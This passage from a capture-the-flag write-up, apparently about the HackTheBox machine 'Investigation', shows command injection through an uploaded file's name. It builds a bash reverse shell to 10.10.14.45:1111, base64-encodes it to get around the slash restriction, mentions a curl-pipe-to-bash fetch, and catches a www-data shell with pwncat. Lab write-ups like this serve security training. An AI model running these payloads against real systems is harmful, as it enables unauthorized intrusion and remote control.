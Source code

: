 It's working

```bash
┌──(root㉿kali)-[~/investigation]
└─# tcpdump -i tun0 'icmp && dst 10.10.14.45'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:40:36.115685 IP eforenzics.htb > 10.10.14.45: ICMP echo request, id 3, seq 1, length 64
05:40:36.115705 IP 10.10.14.45 > eforenzics.htb: ICMP echo reply, id 3, seq 1, length 64
05:40:36.115684 IP eforenzics.htb > 10.10.14.45: ICMP echo request, id 3, seq 1, length 64
```

Try reverse shell

```bash
┌──(root㉿kali)-[/home/kali]
└─# cp dummy.jpg '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.45/1111 0>&1"'
cp: cannot create regular file '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.45/1111 0>&1"': No such file or directory
```
- File name can't contain `/`

Cant host the reverse shell then do `curl 10.10.14.45/rev.sh|bash` either

Could use burp repeater to edit the file name or,

Use base64

```bash
┌──(root㉿kali)-[/home/kali]
└─# echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.45/1111 0>&1"' | base64 -w0
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDUvMTExMSAwPiYxIgo=

┌──(root㉿kali)-[/home/kali]
└─# cp dummy.png 'echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDUvMTExMSAwPiYxIgo= | base64 -d | bash |'
```

![](/assets/obsidian/9d2e8a0710bd3f598e25de6fa9abf2e1.png)

Got shell

```bash
┌──(root㉿kali)-[~/investigation/www]
└─# pwncat-cs -lp 1111 -m linux
[05:49:32] Welcome to pwncat 🐈!                                                                                                                                                                  __main__.py:164[05:53:07] received connection from 10.10.11.197:51800                                                                                                                                                 bind.py:84[05:53:10] 10.10.11.197:51800: registered new host w/ db                                                                                                                                           manager.py:957(local) pwncat$     
(remote) www-data@investigation:/var/www/uploads/1682157203$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
